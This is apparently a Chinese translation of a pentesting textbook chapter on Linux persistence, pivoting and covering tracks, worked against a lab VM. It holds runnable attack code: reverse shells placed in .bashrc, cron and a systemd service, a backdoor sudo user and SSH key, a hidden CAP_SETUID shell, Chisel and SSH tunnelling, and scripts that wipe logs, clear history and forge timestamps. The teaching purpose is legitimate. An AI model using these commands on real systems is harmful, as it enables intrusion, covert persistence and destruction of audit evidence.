

# 第十二章：持久化与转发

本章重点介绍渗透测试中的**持久化**和**转发**技术，特别是使用 Bash Shell。我们将涵盖保持长期访问被攻破系统和在网络中扩展访问的方法。接着，我们将介绍基本和高级的持久化技术、网络转发策略以及**横向移动**的方法。我们还将讨论适当清理程序的重要性，以减少渗透测试活动的可检测痕迹。

本章的各节内容从基础的持久化概念到更复杂的方法，接着是网络转发策略的探索。通过这些内容，您将学习如何使用 cron 作业、启动脚本和系统级服务来实现持久化。我们将涵盖各种转发技术，包括端口转发和通过 SSH 隧道的转发。最后，我们将提供清理日志、删除命令历史记录和管理数字足迹的指导，以在渗透测试期间保持操作安全。

本章将涵盖以下主要内容：

+   使用 Bash 进行持久化的基础

+   学习高级持久化技术

+   使用 Bash 进行网络转发的基础

+   精通高级转发和横向移动

+   清理和掩盖痕迹

# 技术要求

本章的代码可以在[`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter12`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter12)找到。

如果您希望跟随练习，您需要有一个 Kali 和`ESCALATE_LINUX`虚拟机。

输入以下命令在 Kali Linux 系统上安装先决条件：

```
 $ sudo apt install proxychains4
```

请参阅*第十一章*获取`ESCALATE_LINUX`下载链接和配置说明。

提示

`ESCALATE_LINUX`虚拟机将在本章中被称为*目标*。

在我们开始下一节之前，需要对目标进行一些初步设置。在*第十一章*中，我们已经提升了 root 权限并破解了 root 密码。root 密码是`12345`。

在此，目标上的`user1`具有 sudo 权限，如下图所示：


图 12.1 – 显示了/etc/sudoers 中的一条条目

我们将为`user1`设置密码，并使用该账户完成本章的所有练习。这将模拟我们利用具有`sudo`权限的用户账户，并为后续的操作做准备。

再次利用目标上的 Web 应用程序获得`user6`的 shell。如果您需要复习相关操作，请参阅*第十一章*。

在继续之前，你需要建立一个交互式 shell。输入`su root`命令，观察输出信息显示`su: must be run from a terminal`。要解决此问题，输入以下命令：

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

然后，输入`su root`命令，并在提示时输入`12345`作为密码。最后，输入`echo "user1:12345" | chpasswd`命令：


图 12.2 – 设置 user1 的密码

提示

你可能已经注意到，shell 正在回显你输入的命令。要停止这一现象，可以输入`stty -echo`命令。

最后，我们必须输入`exit`以退出 root 提示符，并在提示输入密码时输入`su user1`和`12345`。现在你应该能看到`user1`的提示符，如下图所示：


图 12.3 – 切换到 user1 账户

完成这些初步设置后，你就可以开始接下来的练习了。

# Bash 持久性的基本原理

持久性是指在初始利用后，继续保持对被攻陷系统的访问权限。对于评估 Linux 系统的渗透测试人员来说，了解基于 Bash 的持久性技术至关重要。本节将介绍一些使用 Bash 建立持久性的方法。

## 在 Bash 中创建新用户

一种基本技巧是创建一个具有 root 权限的新用户账户。请参见以下示例，了解添加具有 root 权限新用户的命令：

```
 $ sudo useradd -m -s /bin/bash bashdoor $ sudo usermod -aG sudo bashdoor $ echo "bashdoor:password123" | sudo chpasswd
```

这些命令会创建一个名为`bashdoor`的新用户，将其添加到`sudo`组，并将密码设置为`password123`。新用户将拥有完全的 root 权限。

让我们更详细地看看这个过程是如何进行的：

+   `useradd` ：创建新用户账户

+   `-m` ：创建主目录

+   `-s` ：将登录 shell 设置为`bash`

+   `usermod -aG` ：将用户添加到`sudo`组

+   `chpasswd` ：设置密码

让我们看看这个操作是如何进行的：


图 12.4 – 添加具有完全 sudo 权限的新用户的过程

添加新用户是一个比较显眼的操作，可能会被注意到。如果你只是给现有用户添加一个后门 shell，则可能不容易被发现。接下来我们将探讨这种技术。

## 给 Bash shell 添加后门

`~/.bashrc` 文件会在每次打开新的交互式 Bash shell 时执行。我们可以在这里添加命令。

在继续之前，退出`bashdoor`的终端会话，以便返回到`user1`的提示符。接下来，在 Kali 终端中输入以下命令，确保你已经准备好接收反向 shell：

```
 $ nc -nlvp 5555
```

在`user1`的 shell 中，输入以下命令，并用你自己的 IP 地址和端口替换：

```
 $ echo "(/bin/bash -i >& /dev/tcp/192.168.56.101/5555 0>&1) &" >> ~/.bashrc
```

这将把一个反向 shell 命令添加到用户的`~/.bashrc`文件中。每次打开新的终端时，它都会连接回攻击者的机器。

然后，使用 `su** **user1` 命令以 `user1` 身份建立一个新会话。

你应该在运行 `nc` 的终端看到一个新的 `user1` 会话，如下图所示：


图 12.5 – 我们的反向 Shell 已经建立

提示

如果你在使用 `echo` 命令将内容追加到 `.bashrc` 文件末尾时出错，可能由于 Shell 限制而很难通过编辑器删除。你可以输入 `sed -i '$d' filename` 命令删除文件的最后一行。

除了 `.bashrc` 中的 Bash 反向 Shell 后门外，定时作业是另一种有效的方式，用于在 Linux 系统中维持 Bash 环境的持久性。

## 创建后门 cron 作业

Linux **cron 作业** 是定期自动运行的任务。**cron 守护进程** 是一个后台服务，它执行这些预定的命令、脚本或程序。

cron 作业在 crontab 文件中定义，文件中包含任务的安排和执行命令。每一行代表一个作业，并遵循以下格式：

```
 * * * * * command_to_execute
```

五个星号代表以下几个方面：

+   分钟（0-59）

+   小时（0-23）

+   日（1-31）

+   月份（1-12）

+   星期几（0-7，其中 0 和 7 代表星期天）

用户可以使用 `crontab -e` 命令编辑他们的 crontab 文件。以下是一个示例，表示每天 3:30 A.M. 运行脚本的 cron 作业：

```
 30 3 * * * /path/to/script.sh
```

要查看现有的 cron 作业，可以使用 `crontab -** **l` 命令。

对于渗透测试者来说，cron 作业在后期利用和维持访问中非常重要，原因有很多：

+   **持久性** : 攻击者可以使用 cron 作业通过安排任务来保持对被攻破系统的访问，这些任务会重新建立连接或下载更新的恶意软件。

+   **数据外泄** : 可以设置 cron 作业定期将敏感数据从受损系统发送到攻击者控制的服务器。

+   **权限提升** : 如果攻击者能够创建或修改以 root 或其他特权用户身份运行的 cron 作业，他们可能会在系统上提升自己的权限。

+   **后门维护** : cron 作业可以定期检查并修复任何可能被删除或禁用的后门。

+   **避开检测** : 通过在特定时间安排恶意活动，攻击者可以通过在系统管理员不太可能监控系统的时间执行操作，从而避开检测。

+   **自动化侦察** : 攻击者可以利用 cron 作业定期收集关于系统或网络的信息，帮助他们规划进一步的攻击或识别新的漏洞。

cron 作业可以通过安排恶意命令来维持持久性。以下是一个示例：

```
 $ echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'" | crontab -
```

这会创建一个 cron 作业，每 5 分钟尝试建立一个反向 Shell 连接。

其工作原理如下：

+   `echo` : 这将添加一个新的 cron 作业。

+   `*/5 * * * *` : 这将设置每 5 分钟执行一次任务。

    该命令创建一个反向 shell（根据需要更改 IP 地址和端口）。

+   `| crontab -`：这会安装新的 crontab。

让我们看看实际操作。在目标系统上，我们执行命令来创建 cron 任务，接着立刻执行列出所有 cron 任务的命令。在 Kali 系统上，5 分钟内，我们就能得到 shell。以下截图展示了这一过程；下面的截图显示了在目标系统上已执行的命令：


图 12.6 – 我们在目标系统上创建 cron 任务以实现持久性

下图展示了我们在 Kali 上接收到反向 shell：


图 12.7 – 我们从 Kali 系统的 cron 任务中捕获反向 shell

理解 cron 任务是提权和维持访问权限的关键技能。接下来，我们将研究如何通过后门化系统文件来实现持久性。

## 后门化系统文件以实现持久性

Linux 系统的 `.service` 文件是配置文件，用于系统 d，许多现代 Linux 发行版的初始化系统和服务管理器。这些文件定义了 systemd 如何管理和控制服务、守护进程或后台进程。

以下是 `.** **service` 文件的关键部分：

+   **位置**：通常存储在 `/etc/systemd/system/` 或 `/usr/lib/systemd/system/` 中

+   **命名约定**：`[service_name].service`

+   **结构**：由 `[Unit]`、`[Service]` 和 `[Install]` 等部分组成

+   **目的**：定义服务行为、依赖关系、启动/停止命令等

这是一个基本的 `.** **service` 文件示例：

```
 [Unit]
Description=A Custom Service
After=network.target
[Service]
ExecStart=/usr/local/bin/a_service_script.sh
Restart=on-failure
User=user
[Install]
WantedBy=multi-user.target
```

该文件定义了以下内容：

+   服务的描述

+   它应在何时启动（网络启动后）

+   启动服务时要执行的命令

+   如果服务失败，重新启动的行为

+   服务应运行的用户

+   服务应安装在系统启动序列中的位置

修改系统服务文件可以提供在重启后仍然有效的持久性。这一点在以下命令中得到了展示，命令可以在本章的 GitHub 仓库中找到，文件名为 `ch12_persistence.service.sh`。请注意，ExecStart Bash 反向 shell 命令为一行，可能因排版问题换行：

```
 #!/usr/bin/env bash
sudo tee -a /etc/systemd/system/persistence.service << EOF
[Unit]
Description=Persistence Service
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
sudo systemctl enable persistence.service
sudo systemctl start persistence.service
```

这会创建一个新的 systemd 服务，在系统启动时建立反向 shell 连接。

这是该代码的解释：

+   `tee -a` 创建服务文件。

+   `<<` 重定向将 EOF 标签之间的所有内容发送到服务文件。

+   `[Unit]`、`[Service]` 和 `[Install]` 部分定义了服务。

+   `ExecStart` 指定了要执行的命令。

+   `systemctl enable` 设置服务在启动时自动启动。

+   `systemctl start` 会立即运行该服务。

让我们看看这个实际操作。首先，我将在我的 Kali 系统上运行 `python3 -m http.server` 命令，启动一个 HTTP 服务器用于文件传输。接着，我将在目标系统上使用 `wget` 从 Kali 下载文件，并将文件保存到 `/tmp`。然后，我会将文件设置为可执行并执行它。在 Kali 上，我会查看我的终端并发现我已经获得了反向 Shell 并作为 root 用户建立了会话。以下图示展示了这一过程。

在下图中，您可以看到 Python 服务器已在 Kali 系统上启动：


图 12.8 – 我们运行 HTTP 服务器用于文件传输

以下图示展示了在目标系统上运行的命令，用于下载脚本：


图 12.9 – 我们将脚本下载到目标系统

在下图中，我们正在使脚本可执行并运行它：


图 12.10 – 我们使脚本可执行并执行它以启用并启动服务

现在，我们在 Kali 上以 root 用户身份接收到反向 Shell：



图 12.11: 我们在 Kali 上以 root 用户身份接收到反向 Shell

在本节中，您学习了 systemd 系统服务的工作原理，系统服务文件的结构，以及如何利用它们实现后期渗透持久化。在下一节中，您将学习如何通过将 SSH 密钥添加到用户配置文件中来随时恢复访问。

## 使用 SSH 授权密钥后门

SSH `authorized_keys` 文件是一种控制用户账户 SSH 访问的机制，无需密码即可登录。本节将概述它的工作原理以及如何利用它进行持久化。

以下是 `authorized_keys` 文件的工作原理：

+   它位于每个用户的 `~/.ssh/authorized_keys` 文件中。

+   它包含公钥，每行一个。

+   当客户端尝试连接时，服务器会检查客户端的公钥是否与该文件中的任何密钥匹配。

+   如果找到匹配项，连接将被允许，而无需提示输入密码。

在获得用户账户访问权限后，如果发现 SSH 可用，您可以将自己的公钥添加到用户的 `authorized_keys` 文件中。即使密码被更改，这也将允许您保持 SSH 访问。

要添加密钥，请运行以下命令：

```
 $ echo "ssh-rsa AAAAB3NzaC1yc2E... attacker@example.com" >> ~/.ssh/authorized_keys
```

此命令将您的公钥添加到 `authorized_keys` 文件中。

让我们仔细看看：

+   `echo` : 该命令用于输出指定文本。

    该文本是攻击者的公钥。它以 `ssh-rsa` 开头，后面跟着密钥数据。

+   `>>` : 该命令会将输出重定向并附加到 `authorized_keys` 文件。

+   `~/.ssh/authorized_keys` : 这是指定用户主目录下的文件路径。

这种技术提供了一种隐蔽的方式来维持访问，因为它不需要修改系统二进制文件或创建新的用户账户。然而，通过监控 `authorized_keys` 文件的变化或进行 SSH 密钥审计，仍然可能被发现。

接下来，我们将深入了解更高级的持久性技术。

# 学习高级持久性技术

在这一部分，我们将探索一种更高级的持久性技术，它可能更加隐蔽，因此在渗透测试过程中更不容易被发现。

Linux 中的能力是一种安全特性，允许对进程可以执行的特权操作进行精细控制。它们提供了一种授予进程特定权限的方式，而不需要给予其完全的 root 访问权限。这有助于通过遵循最小特权原则来提高系统安全性。

以下是关于 Linux 能力的一些关键点：

+   它们将传统的全有或全无 root 权限细分为更小、更具体的权限。

+   能力与可执行文件和进程相关，而不是与用户相关。

+   现代 Linux 内核中有超过 40 种不同的能力。

+   以下是一些常见的能力：

    +   `CAP_SETUID`：该能力允许进程设置当前进程的用户 ID，从而使其能够切换到任何用户，包括 root。

    +   `CAP_NET_BIND_SERVICE`：这允许我们绑定到特权端口（< **1024**）。

    +   `CAP_CHOWN`：这允许我们更改文件的所有权。

    +   `CAP_DAC_OVERRIDE`：这允许我们绕过文件读取、写入和执行权限检查。

+   可以通过`getcap`查看能力，并使用`setcap`在可执行文件上设置能力。

下面是如何查看进程能力的一个示例：

```
 $ getcap /path/to/executable
```

下面是如何设置可执行文件能力的一个示例：

```
 $ sudo setcap cap_setuid=+ep /path/to/executable
```

此命令将 `CAP_SUID` 能力授予指定的可执行文件。

要查看正在运行的进程的能力，请运行以下命令，将`PID`替换为你想检查的进程 ID：

```
 $ getcap PID
```

能力的`=eip`后缀提供了一种精确控制进程可用能力及其如何被使用或传递给子进程的方式。这种细粒度的控制使得系统管理员可以实施最小特权原则，只授予进程执行所需的特定能力，而不是给予其完全的 root 权限。

`=eip` 后缀表示 *有效*、*可继承* 和 *许可* 的能力集。这个后缀用于设置或查看 Linux 系统上支持精细化权限控制的文件或进程的能力。

为了理解`=eip`，我们来逐一解析：

+   `e` – *有效*：这些是当前进程正在使用的能力。

+   `i` – *可继承*：这些能力可以被子进程继承。

+   `p` – *许可*：这些是进程允许使用的能力。

当你看到一个带有`=eip`后缀的能力时，意味着该能力已被设置为所有三个集合：有效、可继承和允许。

例如，如果你将`CAP_SETUID`能力设置到一个文件上，并且其值为`=eip`，你可以使用如下命令：

```
 $ sudo setcap cap_setuid=eip /path/to/file
```

该命令将`CAP_SETUID`能力设置为有效、可继承且允许的，适用于指定的文件。

这是一个使用 Linux 能力维持持续访问权限的例子，且操作隐蔽。这个脚本展示了如何使用 Linux 能力保持访问权限。你可以在本章的 GitHub 代码库中找到它，文件名为`ch12_capabilities.sh`：

```
 #!/usr/bin/env bash
# Create a hidden directory
mkdir /tmp/.persist
# Copy /bin/bash to the hidden directory
cp /bin/bash /tmp/.persist/shell
# Set the CAP_SETUID capability on the copied shell
setcap cap_setuid+ep /tmp/.persist/shell
```

让我们仔细看一下这段代码：

1.  首先，它会在`/tmp`中创建一个隐藏目录。

1.  脚本将 Bash shell 复制到这个隐藏位置。

1.  然后，它使用`setcap`命令将`CAP_SETUID`能力添加到复制的 shell 中。这个能力使得 shell 可以设置用户 ID，从而有效地赋予其类似 root 的权限。

像`/tmp`和`/dev/shm`这样的目录可能会在重启时被清空，因此在保存任何文件以维持持久性之前，请务必检查它们是否已挂载为`tmpfs`类型的文件系统。如果它们被挂载为`tmpfs`，你需要选择一个不同的位置；否则，你的持久性机制将在重启时丢失。你可以通过执行`mount`命令并使用`grep`查找目录位置来检查——例如，检查`/tmp`。

这种技术通过标准系统监控很难被检测到。它不会修改核心系统文件，也不会创建新的用户账户。然而，它提供了一种重新获得提升权限的方式。

理解并使用 Linux 能力提供了一种更隐蔽的方式，以便在后期利用操作中重新获得特权访问权限。

在下一节中，我们将探讨通过被攻陷的 Linux Bash 环境进行跳板的方法，从而访问本来无法接触的网络。

# 使用 Bash 进行网络跳板的基础

在渗透测试领域，利用被攻陷的系统作为跳板，探索并访问与该系统连接的其他网络是非常常见的做法。本节将探讨在被攻陷的 Linux Bash 环境中进行跳板的使用方法。

SSH 端口转发是一种简单却有效的跳板方法。它允许你通过 SSH 连接传输流量，从而访问原本无法到达的系统。在本节中，我们将介绍两种类型的 SSH 端口转发：本地转发和远程转发。

本地端口转发允许你通过 SSH 连接将本地计算机的端口转发到远程服务器。以下命令是本地端口转发的示例：

```
 $ ssh -L 8080:internal_server:80 user@pivot_host
```

这个命令通过`pivot_host`建立一个 SSH 连接，并将本地端口`8080`转发到`internal_server`上的端口`80`。执行该命令后，访问本地机器上的`localhost:8080`将会连接到`internal_server`上的端口`80`。本地端口转发最适用于需要通过被攻陷的系统访问内网单一服务器端口的情况。

远程端口转发是本地端口转发的反向操作。它允许你将远程 SSH 服务器上的端口转发到本地机器。以下命令演示了如何使用 SSH 启动远程端口转发：

```
 $ ssh -R 8080:localhost:80 user@pivot_host
```

这个命令将`pivot_host`上的端口`8080`转发到你本地机器上的端口`80`。因此，任何访问`pivot_host`上端口`8080`的人都会到达你本地机器上的端口`80`。远程端口转发最适用于当你需要将数据从内网外泄时，比如当你需要接收一个反向 Shell 时。

SSH 端口转发可能不够灵活，因为它们是单一端口映射。`Socket Secure`（**SOCKS**）代理是一种通用的代理，它通过代理服务器在客户端和服务器之间路由网络流量。通过 SSH 设置 SOCKS 代理能够实现更灵活的 pivot 操作，因为它可以处理各种类型的流量。

以下 SSH 命令启动一个动态 SOCKS 代理：

```
 $ ssh -D 9050 user@pivot_host
```

这个命令通过 SSH 连接到`pivot_host`并在本地端口`9050`创建一个 SOCKS 代理。然后，你可以配置你的应用程序（例如，web 浏览器）使用这个 SOCKS 代理。例如，你可以通过`curl`使用这个代理：

```
 $ curl --socks5 localhost:9050 http://internal_server
```

这个命令通过 SOCKS 代理向`internal_server`发送 HTTP 请求。

你还可以将`proxychains`工具与 SOCKS 代理结合使用。当你需要用不支持代理的工具通过 SOCKS 代理时，这种方法特别有用。

我们需要在使用 proxychains 之前进行配置。配置文件通常位于`/etc/proxychains4.conf`。编辑这个文件，将最后一行从`socks4 127.0.0.1 9050`更改为`socks5 127.0.0.1 9050`。请注意，在`socks5`和`127.0.0.1`之间有一个制表符。

现在我们已经设置好了 proxychains，让我们在 Kali 上使用它与`nmap`一起进行 TCP 端口扫描。基本语法如下：

```
 $ proxychains -q nmap -sT -p- [target_ip]
```

让我们仔细看看这个命令：

+   `proxychains -q`：这个命令告诉系统为接下来的命令使用 proxychains。`-q`选项使 proxychains 变得安静。

+   `nmap`：我们正在使用的网络映射工具。

+   `-sT`：这个标志告诉`nmap`执行 TCP 连接扫描。你无法通过 SOCKS 代理执行 TCP SYN 扫描或 UDP 扫描。扫描必须是 TCP 连接扫描。

+   `-p-`：这个标志告诉`nmap`扫描所有端口（`1** - `65535**）。

+   `[target_ip]`：将此处替换为你想要扫描的 IP 地址。

在这种情况下，我们当前的目标没有暴露 SSH。你将在下一节中学到当 SSH 不可用时如何进行 pivot 操作。

请注意，通过 SOCKS 代理进行扫描非常慢。你可能想要限制扫描的端口数量。另一种选择是将像 Goscan 这样的工具传输到跳板主机，然后从那里进行扫描。你可以在[`github.com/sdcampbell/goscan`](https://github.com/sdcampbell/goscan)找到 Goscan。ProjectDiscovery Naabu 是另一个选择。

这些基本的跳板技术为渗透测试中访问受限网络段提供了基础。它们使你能够扩展在目标环境中的访问范围，便于进一步探索和测试内部系统。我们将在下一节中探讨更先进的跳板技术。

# 精通高级跳板和横向移动

在本节中，我们将探索使用 Bash 脚本进行的高级跳板和横向移动技术。这些方法超越了基本的 SSH 隧道和 SOCKS 代理，着重于更复杂的方法，以便在复杂的网络环境中导航。

## 动态链式跳转

**动态链式跳转**涉及创建一系列相互连接的跳板，以便更深入地进入网络。该技术在处理分段网络或需要绕过多个安全层时特别有用。

这是一个 Bash 脚本，它自动化了设置动态跳板链的过程。你可以在本章的 GitHub 仓库中找到这个脚本，名为`ch12_dynamic_pivot.sh`。

```
 #!/usr/bin/env bash
pivot_hosts=("user-1@192.168.5.150" "user-2@10.1.0.50" "user-3@172.16.1.25")
target="user-4@192.168.20.200"
local_port=9090
# Set up the chain
for ((i=0; i<${#pivot_hosts[@]}; i++)); do
    next_port=$((local_port + i + 1))
    if [ $i -eq 0 ]; then
        ssh -f -N -L ${local_port}:localhost:${next_port} ${pivot_hosts[$i]}
    elif [ $i -eq $((${#pivot_hosts[@]} - 1)) ]; then
        ssh -f -N -L ${next_port}:${target%@*}:22 ${pivot_hosts[$i]}
    else
        ssh -f -N -L ${next_port}:localhost:$((next_port + 1)) ${pivot_hosts[$i]}
    fi
done
echo "[+] Pivot chain is established! Connect to ${target} via: ssh -p ${local_port} ${target#*@}"
```

在攻击者机器上运行此脚本。该脚本通过多个跳板主机设置一系列 SSH 隧道。它从在攻击者机器上创建一个本地端口转发开始，然后通过每个跳板主机进行链式连接，最终到达目标。该脚本使用循环来创建链中的每个环节，并对第一个和最后一个跳板进行特殊处理。

提示

SSH 提供了一种更简单的方法，通过跳板主机完成相同的操作。使用多个跳板主机的 SSH 命令语法是`ssh -J** **user1@jumphost1,user2@jumphost2 user3@targethost`。

动态链式跳转可以在没有 SSH 访问权限的情况下，使用外部工具执行。两个相关的工具是 Chisel（[`github.com/jpillora/chisel`](https://github.com/jpillora/chisel)）和 Ligolo-ng（[`github.com/nicocha30/ligolo-ng`](https://github.com/nicocha30/ligolo-ng)）。这些工具可以在没有 SSH 服务器的情况下用于跳转。它们要求你将一个可执行文件上传到跳板主机，并且不需要 root 权限即可操作。

在这个示例中，我将使用 Chisel。

记下我的 Kali 系统的当前 IP 地址后，我将在同一目录下启动一个 HTTP 服务器，将 Chisel 传输到目标主机，方法是在该目录下运行`python3 -m http.server`命令。

在我作为 `user6` 拥有 shell 权限的目标系统上，我将使用 `wget` [`10.0.0.66:8000/chisel`](http://10.0.0.66:8000/chisel) 命令将 Chisel 文件下载到 `/tmp` 目录。在运行之前，您必须使用 `chmod +x chisel` 命令使其具备可执行权限。您还必须在 Kali 上运行相同的命令，因为您需要在连接的两端都运行 Chisel。

接下来，使用 **./chisel server -p 8001 –reverse** 命令在 Kali 上启动 Chisel。然后，在目标（跳板）系统上运行 `./chisel client 10.0.0.66:8001 R:1080:socks` 命令。确保根据需要替换为您自己的 IP 地址。

让我们看看实际操作。在以下截图中，Kali 的 IP 地址为 `10.0.0.66`。`10.0.0.149` 上的防火墙在端口 `80` 上暴露了一个 Web 服务器。该 Web 服务器位于防火墙的另一侧，IP 地址为 `10.1.1.103`。我将使用 Chisel 的 SOCKS 代理扫描位于 `10.1.1.0/24` 网络上的 Windows 主机，该网络位于防火墙的另一侧。

下图显示了在运行命令启动 Chisel 服务器之前，使用 Python 传输 Chisel 文件：


图 12.12：Chisel 从 Kali 提供给跳板目标，并启动服务器端

下图演示了在目标系统上执行的命令，用于传输 Chisel 并启动连接的客户端：


图 12.13：Chisel 在跳板主机上以客户端模式启动，完成反向 SOCKS 连接

建立连接后，我们可以使用 `proxychains` 通过 `SOCKS` 隧道进行扫描：


图 12.14：Kali 通过 SOCKS 代理扫描 Windows 主机

我们仅仅触及了 Chisel 能力的表面。您可以使用 Chisel 通过多个跳跃进入网络。

Ligolo-ng 的工作方式不同。它不是创建 SOCKS 代理，而是创建一个用户空间网络栈，类似于 VPN 连接，通过隧道路由网络流量。您可以在 [`github.com/Nicocha30/ligolo-ng`](https://github.com/Nicocha30/ligolo-ng) 找到该工具、文档和命令示例。

在某些情况下，您可能无法从内部网络建立到互联网的出站连接。在下一节中，我们将探讨 **DNS 隧道**，这是一种较慢但可靠的跳板技术。

## DNS 隧道

DNS 隧道可以用来绕过防火墙，并建立一个隐蔽的通道进行跳转。我曾在将微型计算机（如树莓派）插入网络端口时使用过这种技术，以便在阻止了外向的 SSH 或 Wireguard 连接时，从受限网络建立隐蔽通道。我也曾将 DNS 隧道作为远程测试设备的故障转移解决方案，发送到客户站点。如果网络限制阻止了测试设备与我连接，我仍然可以通过 DNS 隧道建立连接并完成渗透测试。

我发现，许多人可能很难理解 DNS 隧道如何工作，你可能会认为如果阻止了 `53` 端口的外向连接，那么就能阻止 DNS 隧道的使用。但事实并非如此。

以下是 DNS 隧道通常如何工作的分步解析：

1.  客户端，即试图绕过网络限制的设备，创建一个包含编码数据作为子域名的 DNS 查询。这些数据可能是命令、文件或其他需要发送到外部服务器的信息的一部分。该查询通常是针对由攻击者或使用 DNS 隧道的合法服务控制的域名的子域。

1.  客户端的 DNS 查询被发送到已为网络接口配置的 DNS 服务器。网络 DNS 服务器无法解析该子域，因此将请求转发给该域名的权威 DNS 服务器。

1.  DNS 查询通过正常的 DNS 解析过程，最终到达由攻击者控制的权威 DNS 服务器。

1.  该服务器已配置为理解 DNS 查询中的编码数据。权威 DNS 服务器从查询中解码数据，处理它（即执行命令），然后将响应编码在 DNS 回复中。

1.  响应以 DNS 响应的形式返回给客户端，这看起来像是对任何网络监控系统而言的常规 DNS 响应。

1.  客户端接收到 DNS 响应并解码数据。这可能是一个确认消息、被外泄的文件的一部分，或是对之前发送的命令的回应。

1.  该过程根据需要重复进行，客户端和服务器继续通过 DNS 查询和响应进行隐蔽通信。

除了最严格限制的网络外，其他网络都会将无法从内部网络 DNS 服务器解析的子域请求转发给该域的权威服务器。这意味着，如果你需要从要求所有外向网络流量通过防火墙规则允许或必须通过 HTTP/S 代理的网络中进行隧道传输，你可以通过利用 DNS 隧道绕过这些网络限制。虽然 DNS 隧道速度较慢，因此通常作为最后的手段使用。

要使用此技术，你需要在已暴露到互联网的主机上设置一个 `iodined` 服务器，并确保它对你用作隧道的域名具有权威性。

请查看 iodined 项目的文档，了解配置和执行说明：[`github.com/yarrick/iodine`](https://github.com/yarrick/iodine) 。

请注意，DNS 隧道是明文或未加密的通信。务必通过隧道加密流量。当用于与一个小型数据箱或远程测试设备通信时，我会通过 DNS 隧道建立一个 SSH 会话。

这就是我们关于跳板技术的讨论。到目前为止，你已经学会了如何使用 SSH 和外部工具建立前向和反向跳板隧道，从基础到高级场景。接下来的章节，我们将讨论在利用后如何进行清理和掩盖痕迹。

# 清理与掩盖痕迹

在渗透测试中，完成评估后清理非常重要。这个过程包括删除可能表明你在系统上存在的任何遗留物、日志或痕迹。本节内容介绍了你可以使用 Bash 脚本来清理和掩盖痕迹的各种技术。

清理的第一步之一是清除命令历史。这可以防止系统管理员看到你执行过的命令。

`history` 命令会清除并写入空的命令历史 —— 即 `history -cw` 。

`history -c` 命令会从内存中清除当前会话的历史记录，而 `history -w` 命令会将（现在为空的）历史记录写入历史文件，从而有效地擦除之前的内容。

删除 `~/.bash_history` 文件并不能清除历史记录，因为结束当前会话时，所有在会话中输入的命令将会被写入重建的文件。

你还可以通过在 Bash 会话开始时使用 `set HISTFILE=/dev/null` 命令将 `HISTFILE` 环境变量设置为 `/dev/null`，从而防止任何命令历史被记录。

系统日志通常包含你的活动证据。这里有一个脚本可以用来清除常见的日志文件。你可以在本章节的 GitHub 仓库中找到它，名为 `ch12_clear_logs.sh` ：

```
 #!/usr/bin/env bash
log_files=(
    "/var/log/auth.log"
    "/var/log/syslog"
    "/var/log/messages"
    "/var/log/secure"
)
for file in "${log_files[@]}"; do
    if [ -f "$file" ]; then
        echo "" > "$file"
        echo "Cleared $file"
    else
        echo "$file not found"
    fi
done
```

该脚本会遍历一组常见的日志文件。对于每个存在的文件，它会用空字符串覆盖内容，从而有效地清除日志。当然，它需要 root 权限才能清除这些文件。

为了使你的活动不那么显眼，你可以修改你访问或修改的文件的时间戳。以下脚本将通过更改时间戳，使其与 `/etc/hosts` 文件的时间戳一致，从而修改一组文件。你可以在本章节的 GitHub 仓库中找到它，名为 `ch12_timestamps.sh` ：

```
 #!/usr/bin/env bash
files_to_modify=(
    "/etc/passwd"
    "/etc/shadow"
    "/var/log/auth.log"
)
reference_file="/etc/hosts"
for file in "${files_to_modify[@]}"; do
    if [ -f "$file" ]; then
        touch -r "$reference_file" "$file"
        echo "Modified timestamp of $file"
    else
        echo "$file not found"
    fi
done
```

该脚本使用 `touch` 命令与 `-r` 选项，将列表中每个文件的时间戳设置为与参考文件（在此情况下为 `/etc/hosts` ）的时间戳一致。

对于需要彻底删除的敏感文件，使用 `shred` 命令：

```
 shred -u -z -n 3 sensitive_file.txt
```

该命令会用随机数据三次（ `-n 3` ）覆盖文件，然后用零（ `-z` ）覆盖，最后删除文件（ `-u` ）。

如果您已建立网络连接，可能需要清除 ARP 缓存：

```
 sudo ip -s -s neigh flush all
```

此命令清除 ARP 缓存中的所有条目。

这是一个综合清理脚本，结合了几种技术。可以在本章的 GitHub 存储库中找到名为`ch12_cleanup.sh`的脚本：

```
 #!/usr/bin/env bash
# Clear bash history
history -c
history -w
# Clear common log files
log_files=("/var/log/auth.log" "/var/log/syslog" "/var/log/messages" "/var/log/secure")
for file in "${log_files[@]}"; do
    if [ -f "$file" ]; then
        sudo echo "" > "$file"
        echo "Cleared $file"
    fi
done
# Remove temporary files
identifier="pentester123"
find /tmp /var/tmp -user "$(whoami)" -name "*$identifier*" -type f -delete
# Modify timestamps
touch -r /etc/hosts /etc/passwd /etc/shadow /var/log/auth.log
# Securely remove sensitive files
shred -u -z -n 3 /tmp/sensitive_data.txt
# Flush ARP cache
sudo ip -s -s neigh flush all
echo "Cleanup completed"
```

此脚本执行以下操作：

+   清除 Bash 历史记录

+   清除常见日志文件

+   删除评估过程中创建的临时文件

+   修改重要系统文件的时间戳

+   安全地删除敏感文件

+   清除 ARP 缓存

